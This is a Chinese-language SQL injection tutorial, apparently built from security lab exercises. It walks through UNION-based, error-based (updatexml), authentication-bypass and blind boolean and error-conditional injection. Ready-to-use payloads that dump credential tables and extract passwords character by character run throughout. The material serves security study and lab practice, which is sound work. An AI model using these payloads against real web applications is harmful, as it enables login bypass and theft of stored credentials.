# 什么是 SQL 注入？

当用户提供的数据包含在 SQL 查询中时，使用 SQL 的 Web 应用程序就会变成 SQL 注入。

假设一个在线博客，每篇博文都有一个唯一的 ID 号。每篇博文的URL 可能如下所示：

`https://website.thm/blog?id=1`

从上面的 URL 可以看出，所选的博客文章来自查询字符串中的 id 参数。Web 应用程序需要从数据库中检索文章，可以使用类似如下的 SQL 语句：

```sql
SELECT * from blog where id=1 and private=0 LIMIT 1;
```

上面的 SQL 语句是在博客表中查找 ID 号为 1 且私有列设置为 0 的文章，这意味着它可以被公众查看，并将结果限制为只有一个匹配项。

当用户输入被引入数据库查询时，就会引发 SQL 注入。在本例中，查询字符串中的 id 参数直接在 SQL 查询中使用。

假设文章 ID 2 仍然被锁定为私密，因此无法在网站上查看。现在我们可以改为调用 URL：

`https://website.thm/blog?id=2;--`

然后，它将生成 SQL 语句：

```sql
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
```

URL 中的分号表示 SQL 语句的结束，两个破折号使之后的所有内容被视为注释 。这样一来，实际上你只是在运行查询：

```sql
SELECT * from blog where id=2;--
```

无论是否设置为公开，都会返回 ID 为 2 的文章。

# SQLI的分类

在简单场景下，预期查询与构造的新查询结果都会直接显示在前端，我们可以直接读取这些数据。这种方式被称为 `带内 SQL 注入（In-band SQL injection）`，它主要分为两种类型：`联合查询注入（Union Based）`和 `报错注入（Error Based）`。
使用 `联合查询注入`时，我们需要指定要读取数据的确切位置（即列），让查询结果输出到该位置以便读取。而 `报错注入` 则适用于前端会显示 PHP 或 SQL 错误信息的场景，我们可以通过刻意触发 SQL 错误，让查询结果随错误信息一同返回。
在更复杂的场景中，查询结果可能不会直接显示，这时我们可以利用 SQL 逻辑逐字符地获取数据。这种方式被称为 `盲注（Blind SQL injection）`，它也分为两种类型：`布尔盲注（Boolean Based）`和 `时间盲注（Time Based）`。
`布尔盲注`通过 SQL 条件语句控制页面是否返回原始查询结果，以此判断条件是否成立。而 `时间盲注`则利用 Sleep() 等函数，让页面在条件成立时延迟响应，从而推断数据。
最后，在某些极端情况下，我们可能完全无法直接获取输出，这时可以将查询结果导向一个远程位置（如 DNS 记录），再从该位置取回数据。这种方式被称为 `带外 SQL 注入（Out-of-band SQL injection）`。

# 发现注入点

# 检查数据库

放到这里,主要为了后面的内容进行铺垫

## DBMS指纹识别

在枚举数据库的内容之前，我们通常需要确定要处理的 DBMS 的类型。这是因为每个 DBMS 都有不同的查询，了解它是什么将有助于我们知道应该使用什么查询。

初步猜测，如果我们在 HTTP 响应中看到的 Web 服务器是 Apache 或 Nginx ，那么该 Web 服务器很可能运行在 Linux 上，因此其 DBMS 很可能是 MySQL 。同样的道理也适用于 Microsoft DBMS，如果 Web 服务器是 IIS ，那么它很可能是 MSSQL 。然而，这种猜测比较牵强，因为许多其他数据库都可以在操作系统或 Web 服务器上使用。因此，我们可以测试不同的查询来识别我们正在处理的数据库类型。

以下是一些用于确定常用数据库类型的数据库版本的查询语句：

| Database type    | Query                       |
| ---------------- | --------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

或在基于某个特定的函数来识别:

| Database type | Query                                                                                   |
| ------------- | --------------------------------------------------------------------------------------- |
| MySQL         | SELECT POW(1,1)<br />注释:当只有数字输出时,mysql 会输出1,其他DBMS的会报错误             |
| MySQL         | SELECT SLEEP(5)<br />注释: 盲注时使用,mysql 延迟页面响应 5 秒并返回 0 。其他DBMS无反应 |

更多获取DBMS指纹的方法的请查阅[文档](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification-keyword-based)

## 数据库的元数据

大多数数据库类型（Oracle 除外）都有一组称为信息模式的视图。这些信息模式提供有关数据库的信息。

information_schema 数据库中关键的表信息以及查询 在sql基础中已经完善,不再赘述.

在 Oracle 数据库中，您可以找到相同的信息，如下所示：

您可以通过查询 all_tables 来列出所有表：

```sql
SELECT * FROM all_tables
```

您可以通过查询 all_tab_columns 来列出列：

```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

TODO:并没有完善

# 带内注入(In-Band SQLi )

## Union-baesd SQLi

当应用程序存在 SQL 注入漏洞，且查询结果包含在应用程序的响应中时，可以使用 UNION 关键字从数据库中的其他表中检索数据。这通常被称为 SQL 注入 UNION 攻击。

UNION 关键字允许您执行一个或多个额外的 SELECT 查询，并将结果附加到原始查询。例如：

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

此 SQL 查询返回一个包含两列的单一结果集，其中包含 table1 中 a 列和 b 列以及 table2 中 c 列和 d 列的值。

要使 UNION 查询正常工作，必须满足**两个关键要求**：

1. 各个查询必须返回相同数量的列。
2. 各个查询中每一列的数据类型必须兼容。

要执行 SQL 注入 UNION 攻击，请确保您的攻击满足以下两个要求。这通常需要了解：

1. 原始查询返回了多少列？
2. 原始查询返回的哪些列的数据类型适合保存注入查询的结果？

### 确定列数

#### 使用order by子句

注入一系列 ORDER BY 子句，并递增指定的列索引，直到发生错误。例如，如果注入点是原始查询的 WHERE 子句中的带引号的字符串，则需要提交：

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```

例如原始查询为:

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

我们注入ORDER BY 字句,他的查询类似以下的:

```sql
SELECT * from products where product_id = 'user_input'ORDER BY 1-- '
SELECT * from products where product_id = 'user_input'ORDER BY 2-- '
SELECT * from products where product_id = 'user_input'ORDER BY 3-- '
...
SELECT * from products where product_id = 'user_input'ORDER BY 6-- ' 出错

```

这一系列有效载荷会修改原始查询，使其按结果集中的不同列对结果进行排序。ORDER ORDER BY 子句中的列可以通过其索引指定，因此您无需知道任何列名。当指定的列索引超过结果集中实际的列数时，数据库会返回错误，例如：

> The ORDER BY position number 3 is out of range of the number of items in the select list.

在这个例子中,在 `ORDER BY 6`  时,发生了错误,.我们就知道原始查询的列数为5列

> 应用程序可能会在 HTTP 响应中返回数据库错误，但也可能返回一个通用的错误响应。在其他情况下，它可能根本不返回任何结果。无论哪种情况，只要你能检测到响应中的某些差异，就可以推断出查询返回了多少列。

#### 使用UNION SELECT

提交一系列 UNION SELECT 有效负载，通过指定不同数量的空值：

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

> 可以使用其他值,比如数字或自字符,当使用垃圾数据填充其他列时，我们必须确保数据类型与列的数据类型匹配，否则查询将返回错误。
> 我们使用 NULL 作为注入的 SELECT 查询的返回值，因为原始查询和注入查询中每一列的数据类型必须兼容 NULL 可以转换为所有常见数据类型，因此当列数正确时，它可以最大限度地提高有效负载成功的概率。

如果空值的数量与列数不匹配，数据库将返回错误，例如：

> All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

与 ORDER BY 方法类似，应用程序可能会在 HTTP 响应中返回数据库错误，但也可能返回通用错误或直接不返回任何结果。当空值的数量与列数匹配时，数据库会在结果集中添加一行，该行的每一列都包含空值。HTTP 响应的具体情况取决于应用程序的代码。如果运气好，您会在响应中看到一些额外的内容，例如 HTML 表格中的额外行。否则，空值可能会触发其他错误，例如 NullPointerException 。在最坏的情况下，响应可能与空值数量不正确导致的响应相同。这将使此方法失效。

#### 数据库特定的语法

在 Oracle 数据库中，每个 SELECT 查询都必须使用 FROM 关键字并指定一个有效的表。Oracle 内置了一个名为 dual 表，可用于此目的。因此，注入到 Oracle 中的查询需要如下所示：

```sql
' UNION SELECT NULL FROM DUAL--
```

> 在 MySQL 数据库中，双破折号序列后必须跟一个空格。或者，也可以使用井号 ` # 来标识注释

### 确定列字段数据类型

SQL 注入 UNION 攻击允许您从注入的查询中检索结果。您想要检索的数据通常是字符串格式的。这意味着您需要在原始查询结果中找到一个或多个数据类型为字符串或与字符串兼容的列。

确定所需列数后，您可以逐列进行探测，以测试其是否可以存储字符串数据。您可以提交一系列 UNION SELECT 有效负载，依次将字符串值放入每一列。例如，如果查询返回四列，则您可以提交：

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

如果列数据类型与字符串数据不兼容，则注入的查询将导致数据库错误，例如：

> Conversion failed when converting the varchar value 'a' to data type int.

如果没有发生错误，并且应用程序的响应包含一些附加内容（包括注入的字符串值），则相关列适合检索字符串数据。

当确定了原始查询返回的列数，并找到了哪些列可以保存字符串数据后，就可以检索感兴趣的数据了。

### 确定DBMS的类型

可以在任何步骤下完成这个工作,只要能回去到数据库的类型,我们将开始检索数据库的响嘎un元数据,比如 所有数据库名,某个数据库下的所有表名,某个表下的所有列名

### 查找有用的数据库 表和字段

要使用 UNION SELECT 从表中提取数据，我们需要正确构建 SELECT 查询。为此，我们需要以下信息：

* 数据库列表
* 每个数据库中的表列表
* 每个表中的列的列表

参考sqlbase中关于INFORMATION_SCHEMA 数据库的介绍

## 进阶

### 从单个列中检索多个值

在某些情况下,原始查询只返回一列数据. 而我们的目标是获取表中两个字段的数据,比如username 和password 列,如下所示.

```sql
select bookname from booklists where id='1' union select username,password from users --
```

我们这个查询将会导致错误

你可以通过拼接多个值的方式，在这单个列中同时获取这些数据，还可以添加分隔符，方便区分合并后的各个值。以 Oracle 数据库为例，你可以输入如下内容：

```sql
' UNION SELECT username || '~' || password FROM users--
```

这里用到的双竖线||是 Oracle 数据库中的字符串拼接运算符。注入后的这条查询语句，会将用户表中用户名和密码字段的值拼接在一起，并用波浪线作为两者的分隔符。
执行该查询后，返回的结果中将包含所有用户的用户名和密码信息，例如：

...
administrator~s3cure
wiener~peter
carlos~montoya
...

在mysql中我们可以使用 group_concat() 或者concat()或者concat_ws() 函数来拼接多个字段

```
CONCAT(列1, '~', 列2,'~',列3,'~',etc....)
GROUP_CONCAT(CONCAT_WS('@', 列1, 列2,列3,etc....))

```

要获取所有数据的情况下,推荐使用第二条

其他数据库的情况清查看[文档](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## 实践1

#### 发现注入点



搜索参数中发现了一个潜在的 SQL 注入漏洞。我们通过注入一个单引号（ ' ）来执行 SQL 注入检测步骤，结果确实出现了错误：



由于我们触发了错误，这可能意味着该页面存在 SQL 注入漏洞。这种情况非常适合利用基于 Union 的注入进行攻击，因**为我们可以看到查询结果。**

#### 检测输出列数

我们可以先按 order by 1 ，按第一列排序，由于表格至少需要一列，所以排序成功。然后我们 order by 2 ，再按 order by 3 直到遇到一个返回错误或页面没有任何输出的数字，这意味着该列号不存在。我们最终成功排序的列号就是表格的总列数。

```
' order by 1-- -
' order by 2-- -
etc...

```

在尝试到 order by 5时,发生了错误,表示原始查询中有4列



> 也可以使用
> cn' UNION select 1,2,3,4-- -   这类的查询,指导没有错误发生,就表示得到了 原始查询列的数量

#### 获取数据库的版本

```sql
cn' UNION select 1,@@version,3,4-- -
```



输出 10.3.22-MariaDB-1ubuntu1 表示我们正在处理一个类似于 MySQL 的 MariaDB 数据库管理系统。由于我们有直接的查询输出，因此无需测试其他有效载荷。相反，我们可以测试它们并查看结果。

#### 获取所有的数据库名

有效载荷如下：

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

```



我们找出 Web 应用程序正在运行哪个数据库来检索端口数据。我们可以使用 SELECT database() 查询来找到当前数据库。这与我们在上一节中查找 DBMS 版本的方法类似：

```sql
cn' UNION select 1,database(),2,3-- -
```



#### 获取dev数据库的所有表名

使用以下有效负载来查找 dev 数据库中的表：

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

```



#### 获取表的所有列名

让我们尝试以下有效负载来查找 credentials 表中的列名：

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```



该表有两列，分别名为 username 和 password 。我们可以利用这些信息从表中导出数据。

#### 获取数据

现在我们已经掌握了所有信息，可以编写 UNION 查询语句，从 dev 数据库的 credentials 表中提取 username 和 password 列的数据。我们可以将 username 和 password 分别替换为第 2 列和第 3 列：

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```



## error-based SQLi

发现基于错误的 SQL 注入的关键是通过尝试某些字符直到产生错误消息来中断代码的 SQL 查询；这些字符最常见的是单引号 (') 或引号 (")。

如下案例所示,

后端服务器查询数据库语句 为 `select * from article where id = 1`

当我们在url中id=1后面添加了 单引号后,后端将 引号 带入了sql语句中

`select * from article where id = 1' `

这种sql语句是无效的,**数据库提示错误信息,并 `显示到当前页面中`**

我们现在可以利用此漏洞，并根据错误消息进一步了解数据库结构。

### 案例1

该页面存在报错注入的可能,在id字段加入单引号后出现提示错误的信息



在使用 `'-- - 后还是提示有错误`



这需要引起怀疑的是,当前的注入点的字段是数字型的还是字符型的,例如原始查询为

```sql
SELECT * FROM art WHERE id=32
```

如果我门在这里闭合单引号,这将导致语法错误类似

```sql
SELECT * FROM art WHERE id=32' OR 1=1-- -
```

当不封闭单引号时,页面显示正常.说明注入点是数值型的



### updatexml()

我们可以利用updatexml()函数,UPDATEXML() 本来是 MySQL 提供的一个用来修改 XML 文档的正常函数。
它的标准语法是：UPDATEXML(XML文档, XPath路径, 替换成什么新内容),MySQL 规定，XPath路径这个参数必须是合法的 XPath 格式（比如 /root/user/name）。如果它不合法，MySQL 就会当场崩溃，并且为了方便开发者调试，它会把那个“不合法的字符串”原封不动地通过错误信息打印在屏幕上！

```sql
AND UPDATEXML(1, CONCAT(CHAR(126), version(), CHAR(126)), 1)

```

> MySQL 官方对 UPDATEXML 和 EXTRACTVALUE 这两个报错函数的输出长度做了极其严格的限制：报错信息最多只能显示 32 个字符！
>
> 假设你脱取出来的密码哈希值有 32 位（比如 MD5），再加上前后的两个 ~，已经超出了 32 个字符。MySQL 会无情地把后面的内容直接截断扔掉

遇到长数据，我们必须用 SUBSTRING() 函数把它切开，分批次提取。

第一次查前 30 个字符：

```sql
AND UPDATEXML(1, CONCAT(CHAR(126), SUBSTRING((SELECT password FROM users), 1, 30), CHAR(126)), 1)
```

第二次查剩下的字符：

```sql
AND UPDATEXML(1, CONCAT(CHAR(126), SUBSTRING((SELECT password FROM users), 31, 30), CHAR(126)), 1)
```

回到我们的问题,尝试使用UPDATEXML函数获取数据库名

```
AND updatexml(1,concat(0x7e,(select database()),0x7e),1)--- 
```



接下来获取数据库中有用的的信息

### 获取所有数据库名

为了避免被截断数据,选择使用limit限制数据的输出,这样很保险

```sql
AND updatexml(1, concat(0x7e, (SELECT schema_name FROM information_schema.schemata LIMIT 0,1), 0x7e), 1)
```



如果使用如下的注入方式,将遗漏数据:

```sql
AND updatexml(1, concat(0x7e, (SELECT GROUP_CONCAT(schema_name)FROM information_schema.schemata ), 0x7e), 1)
```



经过尝试,发现只有一个不是dbms自带的数据库,如 `cms`

### 获取有用的表

```pgsql
AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables where table_schema = 'cms' limit 0,1),0x7e),1)
```



经过不断的查询,获得数据库中的表 `cms_flag`

### 获取字段名和数据

```sql
AND updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns where table_name = 'cms_flag' limit 0,1),0x7e),1)

```



最后获取该字段的数据,完成

```sql
AND updatexml(1,concat(0x7e,(SELECT flag FROM cms_flag limit 0,1),0x7e),1)
```

> 如果能使用union联合注入,还是优先推荐使用联合注入,报错注入 除了输出长度的限制外,基本上sql语句的查询消息是不会让前端能看到的

## 身份验证绕过



考虑一个用户登陆界面



我们可以使用管理员凭据 `admin / p@ssw0rd` 登录。



该页面还显示了正在执行的 SQL 查询，以便更好地理解如何破坏查询逻辑。我们的目标是以管理员用户身份登录，而不使用现有密码。如我们所见，当前正在执行的 SQL 查询是：

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

该页面接收凭证，然后使用 AND 运算符选择与给定用户名和密码匹配的记录。如果 MySQL 数据库返回匹配的记录，则凭证有效，因此 PHP 代码会将登录尝试条件评估为 `true` 。如果条件评估为 `true `，则返回管理员记录，我们的登录信息得到验证。让我们看看输入错误的凭证时会发生什么。



正如预期的那样，由于密码错误导致登录失败，从而导致 `AND `运算得出 `false `结果。

在开始破坏 Web 应用程序的逻辑并尝试绕过身份验证之前，我们必须首先测试登录表单是否存在 SQL 注入漏洞。为此，我们将尝试在用户名后添加以下有效载荷之一，看看它是否会导致任何错误或改变页面的行为：

| Payload 有效载荷 | URL Encoded URL 编码 |
| ---------------- | -------------------- |
| `'`            | `%27`              |
| `"`            | `%22`              |
| `#`            | `%23`              |
| `;`            | `%3B`              |
| `)`            | `%29`              |

> 注意：在某些情况下，我们可能必须使用 URL 编码版本的有效载荷。例如，我们将有效载荷直接放在 URL 中，即 HTTP GET 请求。

因此，让我们从注入单引号开始：



我们看到，页面抛出了 SQL 错误，而不是 Login Failed 消息。页面抛出错误是因为生成的查询语句如下：

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

，我们输入的引号数量为奇数，从而导致语法错误。一种方案是注释掉查询的其余部分，并将查询的剩余部分作为注入的一部分写入，以形成有效的查询。另一种方案是在注入的查询中使用偶数个引号，这样最终的查询仍然有效。

我们需要查询始终返回 true ，无论输入的用户名和密码是什么，以绕过身份验证。为此，我们可以在 SQL 注入中滥用 ` OR` 运算符。

根据 MySQL 运算符优先级规则，AND 会优先于 OR 执行。由此产生一个重要逻辑：当查询中存在 OR 时，只要该运算符连接的任意一个条件结果为 TRUE，整个查询的最终结果就会判定为 TRUE。

一个始终返回 true 的条件示例是 '1'='1' 。但是，为了保持 SQL 查询的有效性并保持引号数量为偶数，我们将删除最后一个引号并使用 ('1'='1')，而不是使用 ('1'='1')，这样原始查询中剩余的单引号就会保留在其位置。

因此，如果我们注入以下条件并在它和原始条件之间有一个 OR 运算符，它应该始终返回 true ：

```sql
admin' or '1'='1
```

最终查询应如下所示：

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```



如果用户名 '`admin`' 存在，则查询将返回 `True `，从而绕过身份验证。

[ ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt)如果用户名不存在,查询将返回 `False` ,登陆将失败.

为了在不知道用户名的情况下绕过登陆, 就目前而言,我们可以在密码框中注入一个 OR 条件 `'OR '1'='1`来实现，这样它总是返回 true 。



> 在这种情况下，数据库将返回一个结果数组，因为它会匹配表中的所有用户。由于服务器端预期只返回一个结果，因此这将导致服务器端错误。通过添加 LIMIT 子句，您可以限制查询返回的行数。通过在用户名字段中提交以下有效负载，您将以数据库中第一个用户的身份登录。此外，您还可以在密码字段中注入有效负载，同时使用正确的用户名，以针对特定用户。

```sql
' or 1=1 limit 1 --
```

### 带注释的身份绕过

注入 admin'-- 作为我们的用户名。最终的查询将是：

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

从语法高亮中我们可以看到，用户名现在是 admin ，查询的其余部分现在被忽略为注释。这样，我们就可以确保查询没有任何语法问题。

如果应用程序需要先检查特定条件，然后再检查其他条件，SQL 支持使用括号。括号内的表达式优先于其他运算符，并首先被求值。让我们来看一个这样的场景：



上述查询确保用户的 ID 始终大于 1，这将阻止任何人以管理员身份登录。此外，我们还看到密码在查询之前已进行哈希处理。这将阻止我们通过密码字段进行注入，因为输入已被更改为哈希值。

让我们使用注释掉查询的其余部分。尝试使用 admin'-- 作为用户名。



登录失败，原因是语法错误，因为右括号与左括号不匹配。为了成功执行查询，我们必须添加右括号。我们尝试使用用户名 admin')-- 来关闭并注释掉其余部分。



查询成功，我们以管理员身份登录。根据我们的输入，最终查询结果如下：

```sql
SELECT * FROM logins where (username='admin')
```

* [ ] 请构造查询,以id为5的用户进行登陆,你还有其他方法吗?

  

这是一份[  payload列表](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt)   ,每个 payload 都适用于特定类型的 SQL 查询。

# 盲注 (Blind SQLi)

盲注 SQL 注入是指应用程序存在 SQL 注入漏洞，但其 HTTP 响应不包含相关 SQL 查询的结果或任何数据库错误的详细信息。与带内注入（In-Band SQLi）可以直接在屏幕上看到“战果”不同，正因为无法直接“看到”查询结果，像 UNION 联合查询攻击 这些技术依赖于能够查看应用程序响应中注入查询的结果，在盲注漏洞面前会完全失效。

案例1

假设有一个应用程序使用跟踪 cookie 来收集用户使用情况分析数据。发送到该应用程序的请求包含一个类似这样的 cookie 标头：

`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

当处理包含 `TrackingId`cookie 的请求时，应用程序会使用 SQL 查询来确定这是否是已知用户：

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

此查询存在 SQL 注入漏洞，但查询结果不会返回给用户。不过，**应用程序的行为会根据查询是否返回数据而有所不同**。如果您提交一个有效的 TrackingId ，查询将返回数据，并且您会在响应中收到“欢迎回来”的消息。

这种行为足以利用盲注 SQL 注入漏洞。您可以根据注入的条件触发不同的响应，从而获取信息。

为了理解这种漏洞利用方式，假设发送了两个请求，其中依次包含以下 TrackingId cookie 值：

```sql
…xyz' AND '1'='1
…xyz' AND '1'='2
```

* 第一个值会导致查询返回结果，因为注入的 AND '1'='1 条件为真。因此，会显示“欢迎回来”消息。
* 第二个值导致查询不返回任何结果，因为注入的条件为假。“欢迎回来”消息不会显示。

这样我们就可以确定任何单个注入条件的答案，并一次提取一部分数据。

例如，假设有一个名为 `Users `表，其中包含 `Username` 和 `Password` 两列，以及一个名为 `Administrator` 用户。您可以通过发送一系列输入，每次测试一个字符，来确定该用户的密码。

为此，首先需要输入以下信息：

```sql
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

这将返回“欢迎回来”消息，表明注入的条件为真，因此密码的第一个字符大于 m 。

接下来，我们发送以下输入：

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

这不会返回“欢迎回来”消息，表明注入的条件为假，因此密码的第一个字符不大于 t 。

最终，我们发送以下输入，返回“欢迎回来”消息，从而确认密码的第一个字符是 s ：

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

我们可以继续这个过程，系统地确定 Administrator 用户的完整密码。

> 在某些类型的数据库中， SUBSTRING 函数被称为 SUBSTR 。更多详情，请参阅 SQL 注入速查表 。

这就是一个布尔盲注的例子,通过触发条件响应来利用 SQL 盲注:

在没有任何直接报错和数据回显的情况下，我们通过不断给数据库抛出 True 或 False 的条件，去触发网页产生两种不同的响应状态，并以此为信号，逐个字符地推断出数据库里的敏感信息。

## 布尔盲注Boolean Based SQLi

基于布尔值的 SQL 注入是指我们从注入尝试中收到的响应，这些响应可能是 true/false、yes/no、on/off、1/0 或任何只能有两种结果的响应。该结果确认我们的 SQL 注入有效载荷是否成功。乍一看，您可能会觉得这种有限的响应无法提供太多信息。然而，仅凭这两个响应，就有可能枚举整个数据库的结构和内容。

### 案例2



浏览器主体包含 {"taken":true} 。此 API 端点复制了许多注册表单中常见的功能，即检查用户名是否已注册，并提示用户选择其他用户名。由于 taken 的值设置为 true ，我们可以假设用户名 admin 已注册。我们可以通过将模拟浏览器地址栏中的用户名从 admin 更改为 admin123 来确认这一点，按下 Enter 键后，您会看到 taken 的值已更改为 false。

我们唯一能控制的输入是查询字符串中的用户名，我们需要利用它来进行 SQL 注入。假设用户名是 admin123 ，我们可以开始向其中添加内容，试图让数据库确认某些信息为真，将 taked 字段的状态从 false 改为 true。

我们的首要任务是确定用户表中的列数，这可以通过使用 UNION 语句来实现。将用户名值更改为以下内容：

```sql
admin123' UNION SELECT 1;--
```



> 因为 前一个admin123不存在,这个条件始终不成立,这里为什么不用sql的逻辑运算符,最后将介绍

由于 Web 应用程序的响应值为 false ，我们可以确认这是列的错误值。继续添加更多列，直到获取 true 的值 。



现在我们已经确定了列数，可以开始枚举数据库了。我们的首要任务是找到数据库名称。我们可以先使用内置的 database() 方法，然后使用 like 运算符尝试查找返回 true 状态的结果。

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--

```

我们得到 true 的响应，因为在 like 运算符中，我们只有 % 的值 ，因为它是通配符，所以可以匹配任何内容。如果我们将通配符更改为 a% ，您会看到响应返回 false，这证实了数据库名称不是以字母 a 开头 。我们可以循环遍历所有字母、数字和字符（例如 - 和 _），直到找到匹配项。如果您发送以下内容作为用户名值，您将收到 true 的响应，确认数据库名称以字母 s 开头。

> MySQL 默认配置下不区分大小写。实战中盲猜密码类敏感字段时，必须使用 ascii(substr()) 转换法，或使用 BINARY password LIKE 来保证大小写的绝对精准，否则会导致脱出的密码无法使用。like 会匹配大小写,这里的说法不严谨

现在，继续查找数据库名称的下一个字符，直到找到另一个正确响应，例如“sa%”、“sb%”、“sc%”等。继续此过程，直到找到数据库名称的所有字符，即 sqli_three

我们已经确定了数据库名称，现在我们可以利用 information_schema 数据库，以类似的方法枚举表名。尝试将用户名设置为以下值：

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

此查询在 information_schema 数据库的 table 表中查找数据库名称与 sqli_three 匹配且表名称以字母 a 开头的结果。由于上述查询返回结果为 false ，因此我们可以确认 sqli_three 数据库中没有以字母 a 开头的表。与之前一样，您需要循环查找字母、数字和字符，直到找到匹配项。

最终会在 sqli_three 数据库中发现一个名为 users 的表，您可以通过运行以下用户名有效负载来确认：

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

最后，我们需要枚举用户表中的列名，以便能够正确地在其中搜索登录凭据。同样，我们可以使用 information_schema 数据库和我们已经获得的信息来查询列名。使用下面的有效负载，我们搜索数据库等于 sqli_three、表名为 users 且列名以字母 a 开头的列表。

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

```

同样，您需要循环输入字母、数字和字符，直到找到匹配项。由于您要查找多个结果，因此每次找到新的列名时，您都必须将其添加到有效负载中，以避免找到相同的列名。例如，找到名为 id 的列后 ，您需要将其附加到原始有效负载中（如下所示）。

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

重复此过程三次，您将能够发现列的 ID、用户名和密码。现在，您可以使用它们来查询用户表以获取登录凭据。首先，您需要找到一个有效的用户名，您可以使用以下有效负载：

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

循环浏览所有字符，您会发现密码是 3845。

> 在绝大多数的布尔盲注实战和教程中，使用 AND 是最标准、最常见的做法。
>
> 使用 AND 进行盲注的前提是，你必须先在 WHERE 子句中构造出一个绝对为 True 的基础条件。但在很多黑盒测试中，你可能连一个真实的用户名都不知道。
>
> 这里使用的 UNION SELECT 方案，完美绕过了“必须知道真实账号”的限制。它的逻辑是“凭空捏造”数据。
>
> Payload: admin123' UNION SELECT 1,2,3 where database() like 's%';--
>
> 拼接后:
> select * from users where username = 'admin123'  (左半边：永远查不到数据，返回 0 行)
> UNION
> SELECT 1,2,3 where database() like 's%' (右半边：由我们完全控制的逻辑)
>
> 执行逻辑的降维打击：
>
> 数据库先执行左边，发现没有 admin123，返回一个空集合。
>
> 数据库再执行右边。如果库名真的是以 s 开头，右边就会凭空生成一行数据（1, 2, 3）。
>
> UNION 把左右结果一合并：总结果就有了一行数据。

### 案例3

有些应用程序会执行 SQL 查询，但无论查询是否返回数据，它们的行为都不会改变。上一节中提到的方法行不通，因为注入不同的布尔条件并不会改变应用程序的响应。

通常可以根据 SQL 错误是否发生，让应用程序返回不同的响应。您可以修改查询，使 `其仅在条件为真时才引发数据库错误`。很多时候，数据库抛出的未处理错误会导致应用程序响应出现一些差异，例如错误消息。这使您可以推断注入的条件是否成立。

为了了解其工作原理，假设发送两个请求，其中依次包含以下 TrackingId cookie 值：

```sql
..xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
...xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

这些输入使用 CASE 关键字来测试条件，并根据条件是否为真返回不同的表达式：

1. 对于第一个输入， CASE 表达式的计算结果为 'a' ，这不会导致任何错误。
2. 对于第二个输入，其计算结果为 1/0 ，这会导致除以零错误。

如果错误导致应用程序的 HTTP 响应发生变化，则可以利用这一点来确定注入的条件是否为真。

使用这种方法，您可以一次测试一个字符来检索数据：

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

> 真AND错误,表示猜对了
> 真 AND 'a', 表示猜错了

> 触发条件错误的方法有很多种，不同的技术在不同的数据库类型上效果也各不相同。更多详情，请参阅 SQL 注入速查表 。[文当](https://portswigger.net/web-security/sql-injection/cheat-sheet)

如下案例:

包含一个盲注 SQL 注入漏洞。该应用程序使用跟踪 cookie 进行分析，并执行包含所提交 cookie 值的 SQL 查询。SQL 查询结果不会返回，应用程序也不会根据查询是否返回任何行而做出不同的响应。如果 SQL 查询导致错误，则应用程序会返回自定义错误消息。数据库中有一个名为 users 独立表，其中包含 username 和 password 两列。你需要利用盲注 SQL 注入漏洞来获取 administrator 用户的密码。要完成实验，请以 administrator 用户身份登录。

可以看到网站的请求中携带了cookie



